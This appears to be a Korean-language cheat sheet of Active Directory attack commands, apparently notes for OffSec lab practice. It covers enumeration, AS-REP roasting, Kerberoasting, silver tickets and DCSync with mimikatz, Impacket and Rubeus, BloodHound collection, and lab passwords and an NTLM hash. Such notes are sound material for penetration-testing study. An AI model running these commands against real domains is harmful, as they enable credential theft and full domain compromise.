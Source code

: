 # Enumeration
```bash
netexec smb [ip] -u guest -p '' --rid-brute

./kerbrute_linux_amd64 userenum --dc 192.168.133.40 -d haero /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt

./enum4linux <ip>
```
---
# Impacket secretsdump
```bash
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL
```
- `-system SYSTEM` : `C:\Windows\System32\config\SYSTEM`
- `LOCAL` : ntds.dit와 SYSTEM 파일을 로컬에서 분석
---
# LDAP
```bash
ldapsearch -v -x -b "DC=hutch,DC=offsec" -H "ldap://192.168.160.122" "(objectclass=*)"
```
- `-x` : 기본 SASL 인증 대신 간단한 익명 또는 아이디-비밀번호 기반 인증을 사용
- `-b` :  LDAP 검색을 시작할 루트 경로를 의미. `DC=hutch,DC=offsec` → `hutch.offsec` 도메인을 의미
- `"(objectclass=*)"` : 모든 객체(Object)를 가져오라는 의미
---
# AS-REP Roasting
``` bash
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hash corp.com/pete
```

-   **-dc-ip** : 도메인 컨트롤러(DC)의 IP 주소를 지정.
-   **-request** : 실제로 AS-REP 요청을 보내 티켓을 가져옴.
-   **-outputfile** : 덤프한 해시를 저장할 파일 이름.
-   **corp.com/pete** : 대상 도메인/사용자 계정.

``` powershell
.\Rubeus.exe asreproast /nowrap
```

-   **asreproast** : AS-REP Roasting 공격 수행 모드.
-   **/nowrap** : 해시가 여러 줄로 나뉘지 않고 한 줄로 출력되도록 설정.
---
# Kerberoasting
``` powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```

-   **kerberoast** : Kerberoasting 공격 수행 모드.
-   **/outfile** : 수집한 해시를 저장할 파일 지정.

``` bash
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```

-   **-request** : SPN에 대해 실제 TGS 요청을 전송.
-   **-dc-ip** : 도메인 컨트롤러 IP.
-   **corp.com/pete** : 인증에 사용할 도메인/사용자.
---
# Silver Tickets
``` powershell
.\mimikatz.exe

privilege::debug

sekurlsa::logonpasswords

whoami /user

kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 '
/domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin

klist

iwr -UseDefaultCredentials http://web04
```

-   **privilege::debug** : Mimikatz에서 SYSTEM 권한 디버그 권한 획득.
-   **sekurlsa::logonpasswords** : 현재 로그인된 세션에서 자격 증명
    덤프.
-   **whoami /user** : 현재 사용자 SID 확인.
-   **kerberos::golden** : 골든/실버 티켓 생성 명령.
    -   **/sid** : 도메인 SID 지정.
    -   **/domain** : 도메인 이름.
    -   **/ptt** : 생성한 티켓을 즉시 메모리에 삽입(Pass-the-Ticket).
    -   **/target** : 공격 대상 서비스 호스트.
    -   **/service** : 서비스 이름 (예: http, cifs 등).
    -   **/rc4** : 서비스 계정의 NTLM 해시.
    -   **/user** : 티켓에 삽입할 사용자 이름.
-   **klist** : 현재 메모리에 로드된 티켓 확인.
-   **iwr -UseDefaultCredentials** : 티켓을 이용해 웹 요청.
---
# Domain Controller Synchronization
``` powershell
.\mimikatz.exe

lsadump::dcsync /user:corp\Administrator
```

-   **lsadump::dcsync** : AD 복제 프로토콜을 악용하여 사용자 해시 요청.
-   **/user** : 대상 사용자 계정 지정.

``` bash
impacket-secretsdump -just-dc-user dave corp.com/jeffadmin:"BrouhahaTungPerorateBroom2023!"@192.168.50.70
```

-   **-just-dc-user** : 특정 사용자만 복제 요청.
-   **corp.com/jeffadmin** : 인증에 사용할 도메인/계정.
-   **패스워드** : 계정 암호.
-   **@192.168.50.70** : 도메인 컨트롤러 IP.

---
# CrackMapExec LDAP + BloodHound
```bash
cme ldap hokkaido-aerospace.com -u 'hrapp-service' -p 'Untimed$Runny' --bloodhound -c all -ns 192.168.94.135
```

- Linux/Kali 등에서 바로 실행 가능. LDAP 기반으로 대부분의 정보를 수집 가능하므로 SharpHound을 직접 업로드하지 않아도 됨.

1. **`cme ldap hokkaido-aerospace.com`**
    - `ldap`: LDAP 프로토콜을 사용하여 도메인 컨트롤러와 상호작용.
    - `hokkaido-aerospace.com`: 대상 도메인 이름.

2. **`--bloodhound`**
    - CME의 BloodHound 모듈 활성화.

4. **`-c all`**
    - BloodHound 모듈에서 실행할 **collector 옵션**을 지정.
    - `all` → 모든 수집기를 실행 (유저, 그룹, 컴퓨터, ACL, 세션 등).

4. **`-ns 192.168.94.135`**
    - `-ns`: 사용할 DNS 서버 지정 옵션.
    - `192.168.94.135`: DNS 서버의 IP 주소, 보통 도메인 컨트롤러.
